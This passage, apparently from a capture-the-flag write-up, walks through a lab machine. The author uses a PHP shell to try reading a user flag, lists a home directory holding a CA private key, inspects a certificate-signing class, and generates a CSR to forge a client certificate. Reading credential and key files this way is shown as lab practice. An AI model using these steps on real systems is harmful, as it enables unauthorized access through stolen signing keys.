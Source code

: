 ```
file_get_contents("/home/berlin/user.txt")
PHP Warning:  file_get_contents(/home/berlin/user.txt): failed to open stream: Permission denied
```

We found the the user flag but can’t read it unfortunately with our current user. There is however an interesting file in one of the other home directories:

```
scandir("/home/nairobi");
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
```

The "ca.key" file reminds of the box "Fortune" which required to create a client certificate to access a web site. We look at tcp port 443 to see if this is a similar problem:

![](htb_lasadepapel_certerror.png)

Indeed we seem to require a client certificate which is a bit strange since the server is not directly asking for one (it just says it on the page).

With `show` we can look at the "$tokyo" object we saw in the beginning:

```
show $tokyo
  > 2| class Tokyo {
    3|     private function sign($caCert,$userCsr) {
    4|         $caKey = file_get_contents('/home/nairobi/ca.key');
    5|         $userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6|         openssl_x509_export($userCert, $userCertOut);
    7|         return $userCertOut;
    8|     }
    9| }
```

This looks exactly like the class we need to sign a client certificate. To use it we have to figure out a way to call the function (it is private) and provide it with the arguments it needs. First we create a private key and a certificate signing request:

```
openssl req -newkey rsa:2048 -keyout xct.priv -out xct.csr -nodes -days 365 -subj "/CN=xct" -pubout
```

Then we save the websites certificate in the browser to file and make both things available via a local python webserver. Finally we execute the necessary commands to sign our csr and get the certificate:

